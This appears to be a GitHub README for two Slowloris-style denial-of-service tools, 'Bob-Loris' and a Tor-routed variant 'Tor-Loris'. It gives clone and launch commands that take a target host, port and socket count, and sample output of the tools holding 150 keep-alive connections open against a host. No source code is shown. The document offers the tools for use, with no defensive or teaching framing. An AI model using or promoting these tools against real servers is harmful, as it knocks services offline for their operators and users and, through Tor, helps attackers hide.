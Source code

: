 # Bob-Loris 

**Setup**

        $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Bob-loris.py
 
        $ ./Bob-loris.py -H <host> -P <port> -M <max-sockets Default=150>
    
**Example**
          
        $ ./Bob-loris.py -H 192.168.1.160 -P 80 -M 149          

           ____        _       _            _     
          |  _ \      | |     | |          (_)    
          | |_) | ___ | |__   | | ___  _ __ _ ___ 
          |  _ < / _ \| '_ \  | |/ _ \| '__| / __|
          | |_) | (_) | |_) | | | (_) | |  | \__ \
          |____/ \___/|_.__/  |_|\___/|_|  |_|___/
                                         
                                         
          
         max socket option too low. using Default 150

	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150

# Tor-Loris 
 
**Setup**

        $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Tor-loris.py
 
        $ ./Tor-loris.py -H <host> -P <port> -M <max-sockets Default=150>

**Example**
          
	$ ./Tor-loris.py -H 192.168.1.160 -P 80 -M 150 
	     _______           _            _     
            |__   __|         | |          (_)    
               | | ___  _ __  | | ___  _ __ _ ___ 
               | |/ _ \| '__| | |/ _ \| '__| / __|
               | | (_) | |    | | (_) | |  | \__ \
               |_|\___/|_|    |_|\___/|_|  |_|___/
                                                                                                   
          
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150
	Sending Keep Alive Headers... Socket Count: 150



